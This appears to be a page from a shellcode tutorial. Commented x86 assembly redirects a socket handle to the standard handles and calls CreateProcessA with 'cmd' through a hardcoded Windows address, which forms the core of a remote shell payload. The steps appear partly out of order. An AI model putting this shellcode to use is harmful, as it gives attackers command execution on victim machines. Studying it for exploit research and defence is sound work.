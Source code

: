 ```
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp             ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName

mov ebx,0x7c80236b      ; Address of CreateProcessA()
call ebx                ; Call CreateProcessA()
```
1) We first allocate a `lpCommandLine` string on the stack.
   ```
   mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                           ; injecting null bytes.
   shr ebx,0x8             ; Make EBX = 'cmd\x00'
   push ebx                ; Push application name
   mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                           ; ('lpCommandLine' parameter)
   ```
2) Allocate `_STARTUPINFOA` structure on the stack.
   ```
   ; Now fill the `_STARTUPINFOA` structure
   xor edx,edx             ; Zero out EBX
   push esi                ; hStdError = our socket handler
   push esi                ; hStdOutput = our socket handler
   push esi                ; hStdInput = our socket handler
   push edx                ; cbReserved2 = NULL
   push edx                ; wShowWindow = NULL
   xor eax, eax            ; Zero out EAX
   mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
   push eax                ; Push dwFlags
   push edx                ; dwFillAttribute = NULL
   push edx                ; dwYCountChars = NULL
   ```